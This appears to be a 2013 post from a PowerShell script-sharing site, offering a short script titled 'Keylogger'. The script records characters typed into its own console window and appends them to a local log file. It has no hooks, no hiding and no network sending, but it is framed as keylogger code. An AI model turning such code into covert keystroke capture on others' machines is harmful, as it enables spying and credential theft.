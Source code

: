 ﻿---
pid:            4707
poster:         greg zakharov
title:          Keylogger
date:           2013-12-17 10:22:43
format:         posh
parent:         0
parent:         0

---

# Keylogger

### [download](4707.ps1)

Example of elementary keylogger.

```posh
[String]$buff = ""

while($true) {
  [Console]::ReadKey("`r") | % {
    if ($_.Key -eq 'Enter') {break}
    if ([Char]::IsLetterOrDigit($_.KeyChar) -or [Char]::IsWhiteSpace($_.KeyChar) -or`
        [Char]::IsPunctuation($_.KeyChar) -or [Char]::IsSymbol($_.KeyChar)) {
      $buff += $_.KeyChar
      Write-Host $_.KeyChar -no
    }
  }
}
""

if (-not [String]::IsNullOrEmpty($buff)) {
  Out-File ($pwd.Path + '\keylogger.log') -in $buff -enc ASCII -app -for
}
```
